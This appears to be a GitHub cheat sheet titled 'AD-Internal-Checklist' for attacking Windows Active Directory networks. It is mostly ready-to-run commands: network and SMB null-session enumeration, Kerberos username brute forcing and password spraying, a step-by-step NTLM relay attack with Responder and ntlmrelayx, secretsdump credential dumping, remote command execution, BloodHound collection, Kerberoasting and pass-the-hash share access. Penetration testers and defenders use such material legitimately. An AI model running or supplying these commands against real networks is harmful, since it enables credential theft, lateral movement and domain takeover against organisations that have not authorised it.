 # AD-Internal-Checklist | Active Direcotry All Cheatsheets and resources. 

## Enumerate the network. 
Enumerating the network is a very important step to discover domain controllers, servers, printers, workstations. 

The first tsep is to do is to get the IP range you are connected to. `ifconfig` / `ipconfig`. Collect as much information as possible about an AD envirement.  The goal is to get valid credentials or atleast a list o valid usernames. 

without creds 

- Nmap: 

```bash
nmap -sP -p <ip>/range # ping scan
```

```bash
nmap -PN -sV -f --open -f <ip>/range # quick scan
```

```bash
nmap -PN -sC -sV -oA <output> <ip> # classic scan
```
Options to bypass firewall `-f / -sS / -PN`

- Crackmapexec (favorit)
 This will enumerate smb null session
 ```bash
 crackmapexec smb 10.10.10.1/24 -u '' -p ''
 ```
 
 This will enumerate anonymouss access to share. 

 ```bash
 crackmapexec smb <ip> -u 'a' -p '' --shares
 ```
- OSINT: you can use open source intelligence to get a list of valid usernames depending on various [active directory naming conventions](https://activedirectorypro.com/active-directory-user-naming-convention/)

- LDAP: `ldapsearch -LLL -x -H ldap://test.local -b'' -s base '(objectclass=\*)'`
- LDAP: `nmap -n -sV --script "ldap* and not brute" -p 389 <dc-ip>` 
- Enum4Linux: `enum4linux -U <dc-ip> | grep 'user:'`
- SMB: Enumerate anonymous and null session: 
```bash
smbclient -U '%' -L //<dc-ip> && smbclient -U 'guest%' -L //<dc-ip>
python3 smbmap.py --host-file smb-hosts.txt -d test.local -L
```
- SMB: `smbclient -L 172.16.1.0`. To gain access a share: `smbclient  \\\\172.16.1.0\\$share`
- Once you craft a list of possible usernames, you can perform nmap kerberoas bruteforce to get valid ones:  
```bash
kerbrute userenum -d test.local usernames.txt
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='<domain>',userdb=<users_list_file>" <ip> 
```
 * using crackmapexec: 
  ```bash
  crackmapexec smb 192.168.1.101 -u /path/to/users.txt -p Summer18 --continue-on-success
  ```
* Using Rebeus (Windows tool)
  ```bash
  Rubeus.exe /users:usernames.txt /passwords:passwords.txt /domain:test.local /outfile:found_passwords.txt
  ```
* using [kerbrute](https://github.com/ropnop/kerbrute): 
  ```bash
  kerbrute passwordspray -d test.local domain_users.txt password123
  ```
TIP: Crackmapexec is prefered

## NTLM Relay attack 

1 - First, makesure you modify on responder file `/etc/responder/Responder.conf` as below:
```bash
SMB = Off  // Off instead of On
HTTP = Off  // Off instead of On
```
2 - Create a list of hosts within the environment with SMB signing disabled using crackmapexec

```bash
crackmapexec smb IP/RANGE --gen-relay-list targets.txt
wc -l targets.txt #check how many targets you've gathered. 
```
Fire up responeder to capture hashes

 ```bash
responder -I eth1 -d -w
```

3 - fire up `ntlmrelayx` script to relay the obtained hashes

 ```bash
impacket-ntlmrelayx -tf targets.txt -smb2support -debug -socks
```

4 - Check ntlmrelayx if any session was captured.
```bash
ntlmrelayx> socks
Protocol  Target         Username         AdminStatus  Port 
--------  -------- 	 --------         --------     ------
SMB       192.168.1.9    DOM/alice_admin  TRUE         445
SMB       192.168.1.16   DOM/alice_admin  TRUE         445
SMB       192.168.1.17   DOM/alice_admin  TRUE         445
SMB       192.168.1.13   DOM/alice_admin  TRUE         445
SMB       192.168.1.31   DOM/alice_admin  TRUE         445
```
5 - Use proxychains to interact with ntlmrelayx socks fonctionality (1080 is the default port within ntlmrelayx)

```bash
nano /etc/proxychains.conf
[ProxyList]
socks4  127.0.0.1 1080
```

6 - You can basically do whatever you want to do with those sessions

  ```bash
proxychains impacket-smbclient -no-pass DOM/alice_admin@192.168.1.41
proxychains impacket-secretsdump DOM/alice_admin@192.168.1.4
impacket-secretsdump DOM/bob_admin@192.168.1.8
crackmapexec smb 192.168.1.10 -u dom_admin -p dom_admin_password -x whoami
```

## With credentials 

Use the credentials in you favor to enumerate usefull information or gain access to computers maybe get a Domain Admin.

- Get other users. `python3 GetADUsers.py -all test.local/john:password123 -dc-ip 10.10.10.1`
- Get almost all information about an AD envirement:

 ```bash
 crackmapexec smb 10.10.10.1 -u 'john' -p 'password123' --groups --local-groups --loggedon-users --rid-brute --sessions --users --shares --pass-pol
 ```
 
  Using ldap

 ```bash
crackmapexec ldap 10.10.10.1 -u 'john' -p 'password123' --trusted-for-delegation --password-not-required --admin-count --users --groups
 ```
 - [windapsearch](https://github.com/ropnop/windapsearch): Look for users with RDP.
 
 ```bash
 python3 windapsearch --dc-ip 10.10.10.1 -u test.local\\john -p password123 -U -G --da -m "Remote Desktop Users" -C -r
 ```
 - bloodhound: 
  There are two methods to do bloodhound. 
 1 Using bloodhound.py. The python version can be useed remotely from an attacker machine: 
 
  ```bash
  python3 bloodhound.py -u john -p password123 -d test.local -v --zip -c All -dc test.local -ns 10.10.10.1
  ```
 PS: the python version requires GPO information.
 
 2 Using ShapHound. 
 Run SharpHound from a PC joined to the domain using your current user and extract all the information you can do:

 ```bash
 ./SharpHound.exe --CollectionMethod All
 Invoke-BloodHound -CollectionMethod All #using SharpHound.ps1
 ```
 The above commands will give you zipped output which you can use in neo4j database. 
 
 - GetNPUsers.py: 
 
 ```bash
 python3 GetUserSPNs.py test.local/john:password123 -dc-ip 10.10.10.1 -request
 ```
 
## SMB SHARES

```bash
with credentials : smbclient -L 172.16.1.0  -U=user%password

with credentials access : smbclient \\\\172.16.1.0\\$share  -U=user%password

with ntlm access : smbclient \\\\172.16.1.0\\$share -U user --pw-nt-hash BD1C6503987F8FF006296118F359FA79 -W domain.local

mount smb share : sudo mkdir /tmp/data; sudo mount -t cifs -o 'user=USER,password=PASSWORD' //10.0.2.80/shareapp /tmp/data
```

